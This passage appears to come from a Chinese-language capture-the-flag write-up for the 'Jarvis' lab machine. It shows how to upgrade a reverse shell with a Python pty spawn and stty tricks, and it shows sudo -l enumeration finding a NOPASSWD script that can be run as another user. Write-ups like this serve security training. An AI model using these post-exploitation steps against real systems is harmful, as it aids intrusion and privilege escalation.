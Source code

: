 反弹过来的shell交互性太差，所以我们需要先升级一下shell：

执行：

```python
python3 -c "import pty; pty.spawn('/bin/bash')"
#这段代码是在Python中使用pty模块创建一个交互式的bash终端。pty.spawn()函数会启动一个新的进程，并将其连接到一个伪终端（pseudo-terminal），然后将标准输入、标准输出和标准错误输出重定向到该伪终端。
#设置环境变量
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

ctrl+z暂停shell

```shell
stty raw -echo;fg
#键入reset，回车
```

升级完成

![image-20230613165346746](/images/16.png)

目前为www-data用户，尝试提权到user

```shell
www-data@jarvis:/var/www/html$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
